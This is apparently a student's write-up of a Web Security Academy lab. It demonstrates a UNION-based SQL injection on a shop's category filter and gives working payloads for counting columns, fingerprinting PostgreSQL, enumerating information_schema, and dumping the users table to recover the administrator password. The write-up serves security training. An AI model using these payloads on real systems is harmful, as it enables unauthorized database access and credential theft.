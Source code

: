 # SQL injection attack, listing the database contents on non-Oracle databases

1. SQLi: product category filter.
    - The application has a login function.
    - The database contains a table that holds usernames and passwords.
2. Goal: 
    - Determine the name of this table and the columns it contains.
    - Retrieve the contents of the table to obtain the username and password of all users.
    - log in as the `administrator` user.

### Analysis
- Website target: `https://0a010055037a8e608001ee1c009c0093.web-security-academy.net/filter?category=Gifts`
- Use Burp suite.
- `ctrl + u`: URL encode.

1. Find the number of columns.
```sql
' order by 2--
'-- I found 2 columns.
```

2. Find the data type of columns.
```sql
' union select 'a', 'a'--
'-- Both of columns are text.
```

3. Find the version of database.
```sql
SELECT @@version --Microsoft
' union select @@version, null--
'-- Internal Server Error: not microsoft.

SELECT version() --PostgreSQL
' union select version(), null--
'-- The version of database is postgreSQL.
```

4. Output the list of table names in the database.
```sql
SELECT * FROM information_schema.tables --PostgreSQL
' union select table_name, null from information_schema.tables--
'-- I found users_zxhgqj table.
```

5. Output the column names of the table.
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
' Union SELECT column_name, null FROM information_schema.columns WHERE table_name = 'users_zxhgqj'--
'-- I found database name: username_txbsgp, password_hnrhnm.
```

6. Output the usernmae and password.
```sql
' union select username_txbsgp, password_hnrhnm from users_zxhgqj--
'-- Username: administrator and password: a2ttiwmu91cggf7k1hnu
```